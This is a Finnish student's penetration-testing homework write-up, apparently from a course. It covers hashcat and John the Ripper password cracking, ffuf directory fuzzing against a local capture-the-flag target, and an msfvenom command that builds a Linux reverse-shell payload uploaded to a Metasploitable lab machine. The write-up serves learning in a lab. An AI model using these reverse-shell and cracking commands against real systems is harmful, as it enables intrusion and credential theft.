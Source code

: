 # Lue ja tiivistä

- Fuzzer: Voi löytää URL-domaineista piilotettuja sivuja ja domaineja joita voi tarkastella. Teknisesti tätä samaa työtä voi tehdä manuaalisesti, mutta se on moninkertaisesti nopeampaa käyttäen [ffuffin](https://github.com/ffuf/ffuf) kaltaista työkalua

- Hashcat: Nykyaikana on todella harvinaista löytää salasanaa tallennettuna raakatiedostona serverillä, sen sijaan monet serverit kääntävät talletetut salasanat hasheiksi tietynlaisilla algorithmeilla. Internetin mukaan [Bcrypt](https://www.npmjs.com/package/bcrypt), joka on kehitetty [Blowfishistä](https://en.wikipedia.org/wiki/Blowfish_(cipher)), on yksi käytetyimmistä salasana-hasheista nykyaikana. Hashcat yrittää tunnistaa bruteforce-metodilla sanaa, jonka hash vastaa sille syötettyä hashia, näin avaten hashin sisältämän salasanan.

- [John](https://www.openwall.com/john/) the Ripper on samankaltainen työkalu, mutta Johnilla voi kokeilla suoria sanakirjahyökkäyksiä esimerkiksi .zip tiedostojen suojauksiin.

# A) Asenna Hashcat ja kokeile toimivuutta murtamalla esimerkkisalasana

Hashcatin asennusta ei tarvinnut omassa tapauksessa tehdä, sillä Kali Linuxin mukana tulee Hashcatin versio 6.2.6

![image](https://github.com/konetoivonen/laksyt/assets/164856618/740085e3-e0c1-4b3b-94d9-104b3587c1c0)

Ladataan salasanakirjasto Githubista, itse olen koko repon ladannut aikaisemmin HackTheBoxia tehdessä, niin nappaan vain reposta tarvittavan tekstitiedoston, ja liitän sen luotuun "Hashed" kansioon

![image](https://github.com/konetoivonen/laksyt/assets/164856618/b95a6de6-5265-4bd0-a69e-926bfe8e01eb)

Aloitetaan esimerkkisalasanan hashin murtaminen seuraavalla komennolla:

    hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved

Hetken kuluttua saadaan vastaus:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/08a225b3-2a65-4ee5-983c-d14d3deecef2)

Salasana on siis:

    summer


# B) Ratkaise dirfuzt-1 

Laitetaan dirfuzt-1 päälle

![image](https://github.com/konetoivonen/laksyt/assets/164856618/37b849e1-68db-464b-b325-79ebc64ea366)

Laitetaan ffuzzeri fuzzaamaan

![image](https://github.com/konetoivonen/laksyt/assets/164856618/8e7126da-b3f5-4160-95cc-9e0a9bab672e)

Tuloksia tutkiessa olin aluksi hieman hukassa siitä, miten oikea sivu pitäisi löytää kaiken tämän joukosta ja vaikka ffuffissa on todella laajat filtteriasetukset, en niitä jaksanut säätää, sillä huomasin tuloksia selatessa, että viidellä sivulla oli sanamäärä 6, kun taas lopuilla oli 9, joten filtteröin ne terminaalin Find komennolla ja löysin sivut, jotka kun avasi, sai kyseisen viestin

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c32e24e4-1ce2-43ba-a5bb-066a5bf11caa)

Näitä sivuja olivat siis: 

    127.0.0.2:8000/wp-admin
    127.0.0.2:8000/.git/config
    127.0.0.2:8000/.git/HEAD
    127.0.0.2:8000/.git/index
    127.0.0.2:8000/.git/logs/

Pakko sanoa, että oma ratkaisuni on sen verran outo, etten ole varma onko ratkaisuni edes oikein, mutta ainakin sivut näyttävät kyseisen viestin;

    You found it! FLAG{tero-git-3cc87212bcd411686a3b9e547d47fc51}

Joten merkisten sen vuoksi tehtävän tehdyksi. Odotan innolla päästä näkemään muiden ratkaisuja ja katsomaan kuinka muut ratkaisivat kyseisen tehtävän!

# C)

Kali Linuxia käyttäessä huomaa, että John the Ripper on jo asennettu, joten tarkistetaan sen olemassaolo ja ladataan esimerkkimateriaali 'wget'-komennolla

![image](https://github.com/konetoivonen/laksyt/assets/164856618/daab3fbf-a4a7-419a-a1c2-5e57a0ecf899)

Sen jälkeen huomataan, että .zip tiedosto on salasanasuojattu, ohjeen mukaisesti muunnetaan John the Ripper-työkalulla salasanasuojattu .zip tiedosto .zip.hash tiedostoksi ja laitetaan John the Ripper työstämään annettua .hash tiedostoa

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fead3699-f0b2-42e8-b039-af83213c5e55)

Huomataan, että salasana on 

    butterfly

Puretaan arkisto annetulla salasanalla ja avataan sisältö

![image](https://github.com/konetoivonen/laksyt/assets/164856618/d564a86d-f427-4ffc-8888-0e21003c224c)

# D)

Basic Content Discovery:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/38fd4955-4752-4d53-92fc-ef4277124030)

Content Discovery With Recursion:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/1ef30fd0-41d4-4c21-bd14-1e7360ca50f0)

Content Discovery With File Extensions:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/5bc23af2-5c55-4d0f-b492-559cc244c2a4)

No 404 Status:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fe704330-35e7-43a3-9352-886db739b7be)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/74b71945-3326-4f2a-96d1-d49ffd061863)

Param mining:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/66ce3daf-438f-42ba-934a-81af1f961100)

Rate Limited:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/a9894abd-2d7a-4a1e-85ef-3045a552d19f)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c8ae648a-fb58-4fa6-8d1e-9560812a715f)

Subdomains - Virtual Host Enumeration

![image](https://github.com/konetoivonen/laksyt/assets/164856618/4bbdb919-7172-4bb9-8c6a-cb7ace1ef8fb)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/ea60e6a9-75bd-42e3-8fd5-58a39329e77d)

# e) 


Tein Metasploitilla seuraavannäköisen haittaohjelman

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.2.15  LPORT=4444 -f elf > shell-x64.elf

Muodostin FTP-yhteyden Metasploitable-koneeseen ja siirsin tiedoston koneelle "put"-komennolla


![image](https://github.com/konetoivonen/laksyt/assets/164856618/fabea6dd-d4ae-4901-8ce4-18075ef09a5b)


Jotta tiedostosta voidaan tehdä ajettava executable, muodostetaan myös erillinen SSH-yhteys koneeseen


![image](https://github.com/konetoivonen/laksyt/assets/164856618/f0f21cd0-ce8e-40c0-9fe9-a93ad7b79345)

Tehdään seuraavalla komennolla .elf-tiedostosta ajettava tiedosto:

    msfadmin@metasploitable:~$ chmod +x shell2-x64.elf

Tässä kohdassa oma kokeilu jäi tähän. Sain siirrettyä tiedoston, sain tehtyä siitä ajettavan binääritiedoston, mutta kun ajan sen, kone näyttää tyhjää eikä TCP-listenerin taakse ilmesty ikinä Meterpreter-sessiota. 

Tarkistin, että arkkitehtuuri on annettu oikein ja rakennettu oikein. Rakensin kyseisen TCP-meterpreter-haittaohjelman neljään eri kertaan kokeillen eri arkkitehtuureita jottei se vaan jäisi siitä kiinni, joten oletukseni on että ongelma on koneiden välisessä yhteydessä. 
Huomasin kuitenkin sen verran, että vaikka Metasploitable2 on Debian-64 bit pohjainen, jostain syystä ainoastaan rakentamani x86-versio tuosta haittaohjelmasta ajoi oikein kohdekoneella. Yhteyttä vaan ei muodostunut.

Alla hieman yksinkertaisempi tapa saavuttaa sama asia tuottamatta niin paljoa päänvaivaa käyttämällä yksinkertaista vsftpd_234_backdoor-takaovea:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/9b2d117e-d064-4379-bef2-20877a2070d6)


# f) ja G)

Tämän koneen kanssa säätö kyllä ärsyttää aika paljon, mutta alla asennettu virtuaalikone Windows 10-käyttöjärjestelmällä


Remminan avulla sain muodostettua juuri-luotuun Windows-virtuaalikoneeseen yhteyden RDP:n kautta. Ongelmana oli aluksi, etten ollut laittanut RDP-toimivuutta päälle Virtualboxin asetuksista, jonka vuoksi yhteys ei muodostunut. Raksutin päätä ainakin tunnin kunnes päätin käydä ulkona, palasin sisälle ja katsoin asetuksia ja huomasin että koneen asetuksissa "Remote Desktop Server" oli pois päältä. Kun asensin VirtualBox-lisäosat jotka mahdollistivat toimivuuden ja laitoin sen päälle, yhteys muodostui ilman ongelmia.


![image](https://github.com/konetoivonen/laksyt/assets/164856618/b1bd928e-1aed-4b15-acb0-99f3fa33335b)





